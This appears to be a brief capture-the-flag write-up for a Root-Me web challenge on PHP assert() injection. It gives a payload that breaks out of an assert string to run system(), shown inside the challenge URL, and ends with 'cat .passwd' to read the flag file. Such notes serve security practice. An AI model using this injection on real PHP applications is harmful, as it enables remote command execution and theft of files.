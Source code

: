 # PHP - assert()

(strpos('includes/', ww', 'r') == true or system('**shell**') and strpos('1.php', '..') === false)  = true</br>

==> assert("strpos('includes/', ww', 'r') == true or system('**shell**') and strpos('1.php', '..') === false") run


http://challenge01.root-me.org/web-serveur/ch47/?page=ww', 'r') == true or system('**shell**') and strpos('1</br>
shell: cat .passwd